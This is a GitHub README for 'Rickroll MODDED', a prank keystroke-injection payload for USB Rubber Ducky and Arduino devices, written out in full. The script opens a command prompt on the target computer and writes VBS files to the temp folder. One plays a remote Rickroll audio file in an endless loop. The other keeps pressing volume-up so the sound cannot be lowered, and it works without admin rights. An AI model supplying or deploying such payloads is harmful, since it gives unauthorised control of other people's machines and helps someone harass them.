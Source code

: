 # Rickroll MODDED
This is a modification from the real "<a href="https://gitlab.com/WarKitteh/arduino-hid-rickroll">Rickroll</a>". It does the same, but it's got a big difference: It sets the volume to the maximum continuously. What happens if someone tries to get down the volume? A vbs resets it to the maximum level. Oh, and it doesn't need admin permissions.

# About...
Version: 1.0

Author: BlueArduino20

# Code for Rubber Ducky
<pre><code>DELAY 3500
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 200
STRING cd %tmp% && copy con rickyou.vbs
ENTER
STRING While true
ENTER
STRING Dim oPlayer
ENTER
STRING Set oPlayer = CreateObject("WMPlayer.OCX")
ENTER
STRING oPlayer.URL = "https://pixelcoding.nl/download/rickroll.mp3"
ENTER
STRING oPlayer.controls.play
ENTER
STRING While oPlayer.playState <> 1 ' 1 = Stopped
ENTER
STRING WScript.Sleep 100
ENTER
STRING Wend
ENTER
STRING oPlayer.close
ENTER
STRING Wend
ENTER
DELAY 100
CTRL z
ENTER
STRING copy con volup.vbs
ENTER
STRING do
ENTER
STRING Set WshShell = CreateObject("WScript.Shell")
ENTER
STRING WshShell.SendKeys(chr(&hAF))
ENTER
STRING loop
ENTER
CTRL z
ENTER
STRING start rickyou.vbs && volup.vbs
ENTER</pre></code>

# Code for Arduino

<a href="https://github.com/BlueArduino20/Rickroll-MODDED/blob/master/Rickroll-MODDED-for-Arduino.ino">Rickroll-MODDED-for-Arduino.ino</a>
